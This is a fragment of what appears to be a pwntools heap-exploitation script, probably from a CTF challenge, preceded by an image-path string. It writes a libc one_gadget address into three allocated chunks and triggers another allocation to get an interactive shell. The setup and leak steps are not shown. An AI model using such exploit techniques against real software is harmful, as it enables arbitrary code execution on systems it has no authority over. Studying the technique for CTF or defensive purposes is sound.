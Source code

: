 ```python

#gdb.attach(p)
add(0x38,p64(libc_base+one_gadget))
add(0x38,p64(libc_base+one_gadget))
add(0x38,p64(libc_base+one_gadget))

sla('Choice:','1')
sla('size:','2')
 
p.interactive()




```